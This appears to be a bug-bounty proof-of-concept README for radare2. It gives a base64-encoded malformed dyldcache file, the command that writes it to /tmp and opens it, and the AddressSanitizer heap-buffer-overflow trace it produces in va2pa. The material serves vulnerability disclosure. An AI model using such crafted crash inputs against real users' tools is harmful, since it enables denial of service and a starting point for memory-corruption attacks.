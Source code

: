 # README

## POC URL
https://huntr.com/bounties/5ad814a1-5dd3-43f4-869b-33b8dab78485



## Run Command
printf "%s" "ZHlsZF92MSB4ODZfNjRoANFkeWxkXwAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABtNjRfdjEgeDg2XzY0aADRZAAAAAAAAAAAAAAAAAAANjQXdjEgIHg4Nl82NAAAAgRkeWxkX3YxICB4ODZfNjQXFxcXFxcXFwAAAAAAAAAAAAAAAAAAAAAAAAAAAP/eAABkeWxkX3YxIHg4Nl82NGgA0RdkeW9kXHYjIHg4Nl82AWgAAAIIZHmBMV9kX3YxAAAAAAAAAAAAdjEAAAAAAAAAAAAAAAAAIQBtNjQAAAAAAAAAAAAAAAAAAAAAWwAAbTY0FxcAAACLAAAAAAAAAAAAFxcPFxcAAAEAAAAAAAAAAAAAAAD+/wAAAAAAAAAAAAA=" | base64 -d > /tmp/a
r2 /tmp/a

## Expected Output
==944987==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x7f04c25f5000 at pc 0x00000214ffbd bp 0x7fff3c435400 sp 0x7fff3c4353f8
READ of size 8 at 0x7f04c25f5000 thread T0
    #0 0x214ffbc in va2pa /home/mio/radare2/build.asan/../libr/bin/p/bin_dyldcache.c:125:23
    #1 0x215334f in read_cache_accel /home/mio/radare2/build.asan/../libr/bin/p/bin_dyldcache.c:1742:16
    #2 0x21489d7 in load_buffer /home/mio/radare2/build.asan/../libr/bin/p/bin_dyldcache.c:1898:17
    #3 0x20ddcdb in r_bin_object_new /home/mio/radare2/build.asan/../libr/bin/bobj.c:147:8
    #4 0x20cc808 in r_bin_file_new_from_buffer /home/mio/radare2/build.asan/../libr/bin/bfile.c:560:19
    #5 0x208a2a6 in r_bin_open_buf /home/mio/radare2/build.asan/../libr/bin/bin.c:279:8
    #6 0x2088e5e in r_bin_open_io /home/mio/radare2/build.asan/../libr/bin/bin.c:339:13
    #7 0x16ee959 in r_core_file_do_load_for_io_plugin /home/mio/radare2/build.asan/../libr/core/cfile.c:435:7
    #8 0x16e748a in r_core_bin_load /home/mio/radare2/build.asan/../libr/core/cfile.c:636:4
    #9 0x6fe544 in r_main_radare2 /home/mio/radare2/build.asan/../libr/main/radare2.c:1179:15
    #10 0x4cd12f in main /home/mio/radare2/build.asan/../binr/radare2/radare2.c:96:9
    #11 0x7f04c4ddefcf in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #12 0x7f04c4ddf07c in __libc_start_main csu/../csu/libc-start.c:409:3
    #13 0x41eae4 in _start (/home/mio/radare2/install-asan/bin/radare2+0x41eae4)

0x7f04c25f5000 is located 0 bytes to the right of 12503040-byte region [0x7f04c1a08800,0x7f04c25f5000)
allocated by thread T0 here:
    #0 0x49b432 in __interceptor_calloc (/home/mio/radare2/install-asan/bin/radare2+0x49b432)
    #1 0x21527b7 in populate_cache_maps /home/mio/radare2/build.asan/../libr/bin/p/bin_dyldcache.c:1704:10
    #2 0x21488b8 in load_buffer /home/mio/radare2/build.asan/../libr/bin/p/bin_dyldcache.c:1893:2
    #3 0x20ddcdb in r_bin_object_new /home/mio/radare2/build.asan/../libr/bin/bobj.c:147:8
    #4 0x20cc808 in r_bin_file_new_from_buffer /home/mio/radare2/build.asan/../libr/bin/bfile.c:560:19
    #5 0x208a2a6 in r_bin_open_buf /home/mio/radare2/build.asan/../libr/bin/bin.c:279:8
    #6 0x2088e5e in r_bin_open_io /home/mio/radare2/build.asan/../libr/bin/bin.c:339:13
    #7 0x16ee959 in r_core_file_do_load_for_io_plugin /home/mio/radare2/build.asan/../libr/core/cfile.c:435:7
    #8 0x16e748a in r_core_bin_load /home/mio/radare2/build.asan/../libr/core/cfile.c:636:4
    #9 0x6fe544 in r_main_radare2 /home/mio/radare2/build.asan/../libr/main/radare2.c:1179:15
    #10 0x4cd12f in main /home/mio/radare2/build.asan/../binr/radare2/radare2.c:96:9
    #11 0x7f04c4ddefcf in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16

SUMMARY: AddressSanitizer: heap-buffer-overflow /home/mio/radare2/build.asan/../libr/bin/p/bin_dyldcache.c:125:23 in va2pa
Shadow bytes around the buggy address:
  0x0fe1184b69b0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0fe1184b69c0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0fe1184b69d0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0fe1184b69e0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0fe1184b69f0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x0fe1184b6a00:[fa]fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0fe1184b6a10: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0fe1184b6a20: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0fe1184b6a30: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0fe1184b6a40: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0fe1184b6a50: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==944987==ABORTING